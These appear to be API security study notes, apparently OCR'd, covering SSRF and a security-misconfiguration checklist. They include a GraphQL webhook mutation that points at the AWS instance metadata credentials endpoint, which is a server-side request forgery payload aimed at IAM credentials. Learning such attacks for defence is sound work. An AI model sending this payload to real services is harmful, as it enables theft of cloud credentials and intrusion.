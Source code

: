 ```bash
    }
    }"
  }
]
```

```bash
POST /graphql

[
  {
    "variables": {},
    "query": "mutation {
      createNotificationChannel(input: {
        channelName: \"ch_piney\",
        notificationChannelConfig: {
          customWebhookChannelConfigs: [
            {
              **url: \"http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-default-ssm\",**
              send_test_req: true
            }
          ]
        }
      }) {
        channelId
      }
    }
  }
]
```

## **Security misconfiguration**

[SOP & CSP & CORS](https://www.notion.so/SOP-CSP-CORS-412bf327655b41939ed6662b926c9cb2?pvs=21)

Unpatched systems
Unprotected files and directories
Unhardened images
Missing, outdated, or misconfigured TLS
Exposed storage or server management panels
Missing CORS policy or security headers
Error messages with stack traces
Unnecessary features enabled

Appropriate security hardening is missing across any part of the API stack, or if there are improperly configured permissions on cloud services
The latest security patches are missing, or the systems are out of date
Unnecessary features are enabled (e.g. HTTP verbs, logging features)
There are discrepancies in the way incoming requests are processed by servers in the HTTP server chain
Transport Layer Security (TLS) is missing
Security or cache control directives are not sent to clients
A Cross-Origin Resource Sharing (CORS) policy is missing or improperly set
Error messages include stack traces, or expose other sensitive information
